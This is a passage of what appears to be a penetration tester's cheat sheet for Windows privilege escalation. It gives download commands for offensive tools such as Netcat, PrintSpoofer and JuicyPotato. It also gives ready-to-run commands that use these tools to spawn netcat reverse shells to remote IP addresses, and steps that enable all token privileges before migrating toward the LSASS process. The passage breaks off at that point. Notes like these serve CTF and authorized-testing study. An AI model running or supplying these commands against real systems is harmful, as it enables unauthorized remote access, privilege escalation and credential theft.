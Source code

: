**NetCat:**

- Download Netcat:
```python
wget https://github.com/int0x33/nc.exe/blob/master/nc.exe
```

**PrintSpoofer:**

- Download PrintSpoofer:
```sh
wget https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
```
- Run command:
```cmd
C:\Tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.16.100 8443 -e cmd"
```

**Juicy Potatoes:**

- Download JuicyPotato:
```python
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

- Run command:
```sh
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer
#### SeDebugPrivilege
#SeDebugPrivilege #Enable_Privilege

**Enable privileges **

- Download script : 
```sh
wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
```

- Enable all privileges : 
```powershell
 Import-Module .\EnableAllTokenPrivs.ps1
.\EnableAllTokenPrivs.ps1
whoami /priv
```

- Resources :
https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/
https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77

**Migrate Process**

- Get LSASS process id: 
```sh
ps 
```
